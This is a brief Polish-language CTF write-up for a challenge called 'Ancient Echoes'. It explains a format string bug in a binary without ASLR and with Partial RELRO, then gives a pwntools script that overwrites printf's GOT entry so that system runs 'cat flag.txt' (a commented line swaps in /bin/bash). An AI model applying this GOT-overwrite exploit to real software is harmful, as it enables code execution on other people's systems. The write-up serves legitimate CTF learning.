



# Ancient Echoes - writeup
## Overview

\
po otworzeniu pliku w idzie jesteśmy od razu zobaczyć, podatność jaką jest format string vulnerability. \
 \
do tego nie ma aslr, więc kod będzie zawsze na takim samym adresie. Relro jest ustawione jako Partial,  więc będziemy w stanie nadpisać got. \

\
możemy też znaleźć, że istnieje nigdzie nie wykorzystywana funkcja wild_magic, która wywołuje system z podaną komendą. 
## Exploitacja
skoro mamy dwukrotnie funkcje printf dzięki której jesteśmy w stanie nadpisać dane w goty, to musimy stworzyć taki payload, który jednocześnie nadpisze addres printf w goty do funkcji wykonującej system i odczyta flage z serwera.\
Zadziała to ponieważ argumentem funkcji system stanie się wtedy nasz payload.\
kod:
```python
from pwn import process, fmtstr, ELF, context, args

context.binary = ELF(args.EXE or './chall')
io = process("./chall")
printf_got = 0x404038
admin_debug = 0x40121D

writes = {printf_got: admin_debug}

# payload = b"/bin/bash &&    "
payload = b"cat flag.txt && "
payload += fmtstr.fmtstr_payload(8, writes, numbwritten=len(payload), write_size="byte")

io.sendafter(b'!', payload)
io.interactive()
```
